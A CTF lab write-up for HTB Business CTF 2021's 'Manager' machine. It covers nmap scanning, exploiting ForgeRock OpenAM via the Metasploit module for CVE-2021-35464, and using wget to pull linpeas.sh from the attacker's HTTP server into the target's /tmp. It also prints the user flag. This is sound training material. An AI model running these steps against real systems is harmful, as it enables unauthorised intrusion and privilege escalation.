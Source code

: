 # HTB Business CTF 2021
## Fullpwn writeup - Manager-user

First of all, after creating instance, let's scan open ports by using nmap:
```
nmap -n -Pn -sV 10.129.173.133
```
![Nmap results](nmap.PNG)

As we can see, the machine have open port on 8080 (Apache tomcat). 
I will try to check what is that in browser by typing ```http://10.129.173.133:8080```:

![Checking site...](redir.PNG)

It redirected us to ```http://manager.htb:8080/openam/UI/login``` which is unavailable.
In that case It's good to add in /etc/hosts a static domain to IP mapping and try do it again:

![/etc/hosts changing](etc_hosts.PNG)

After successful change, let's try again and see what's behind it:

![openam website](openam_webiste.PNG)

It's a OpenAM login webiste - we don't have any credentials, so first I checked for exploits for it.
By typing ```openam exploit``` I found the fresh one vulnerability, which is Pre-auth RCE in ForgeRock OpenAM (CVE-2021-35464). It's a classic example of Java deserialization - more details you can find [there](https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464). On [packet storm](https://packetstormsecurity.com/files/cve/CVE-2021-35464) I found also the raw exploit code and the Metasploit module called ```exploit/multi/http/cve_2021_35464_forgerock_openam```:

![MSF info](msf_openam_info.PNG)

Let's try to use module in Metasploit. We need to setup proper values to use exploit properly. 

![MSF config](msf_config.PNG)

After completing exploit configuration I checked if it is for sure vulnerable and execute the exploit:

![MSF vuln](msf_vuln.PNG)

It opened successfully a session for us, where we can enable interactive shell. 

![MSF tomcat](msf_tomcat.PNG)

We have a access to the machine as a ```tomcat``` user. Tomcat user can write a files in a /tmp/ folder which could be a dropzone for us. I will use that fact to drop linpeas script to check vulnerabilities on that machine in purpouse of obtaining a ```root```. To do that I simply start http server in python on Kali and use wget in shell to download a script:

```
python3 -m http.server 8080
wget 10.10.14.55:8080/linpeas.sh -P /tmp/
```
![Dropzone](linpeas_drop.PNG)

Then I add a execute rights and start a script. 

![Linpeas](linpeas_start.PNG)

When I checked results my eyes stopped on files inside /opt/tomcat. I saw interesting file called user.txt. 

![MSF vuln](tomcat_folder.PNG)

In that file we have the first flag for tomcat user - HTB{1n53cur3_d353r14l1z4710n_c4n_b3_v3ry_d4n63r0u5}. 

![Flag tomcat](user_flag.PNG)

The second one flag for root user  unfortunaley I didn't catch :/.

